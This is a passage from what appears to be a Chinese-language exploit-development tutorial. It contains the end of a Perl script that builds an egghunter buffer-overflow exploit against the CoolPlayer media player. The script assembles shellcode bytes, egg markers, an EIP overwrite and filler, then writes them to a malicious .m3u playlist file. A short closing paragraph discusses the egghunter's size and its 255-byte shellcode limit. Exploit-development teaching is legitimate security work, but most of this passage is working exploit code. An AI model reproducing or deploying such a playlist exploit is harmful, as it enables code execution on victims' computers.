"\x09\xf2\x68\x66\x2e\xa1\x89\xa3\x4d\x24\x1a\x2f\xbc\xc3" .
"\x9a\xca\xc0";

my $egg2 = "\x50\x57\x4e\x44\x50\x57\x4e\x44\x02\xeb"; # egg = PWNDPWND; id = 2; offset to egg1 = 235

my $sploit = $junk.$eip.$egghunter.$nops.$egg1.$shell.$egg2; # build sploit portion of buffer
my $fill = "\x43" x ($buffsize - (length($sploit))); # fill remainder of buffer for size consistency
my $buffer = $sploit.$fill; # build final buffer

# write the exploit buffer to file
my $file = "coolplayer.m3u";
open(FILE, ">$file");
print FILE $buffer;
close(FILE);
print "Exploit file [" . $file . "] created\n";
print "Buffer size: " . length($buffer) . "\n";
```

如果我不是第一个想到这种方法的人，我不会感到惊讶，尽管我找不到任何其他参考资料。它确实有一些缺点， 在 50 字节时，它比 NtDisplayString Egghunter 大 18 字节。 在当前状态下，它为偏移大小标签提供一个字节，这意味着 shellcode 被限制为 255 个字节或更小。这可以进行调整，尽管它可能会增加 Egghunter 代码的大小。 无论如何，至少它可能会让你想到其他方法来实现 Egghunters，甚至可能改进这个方法。
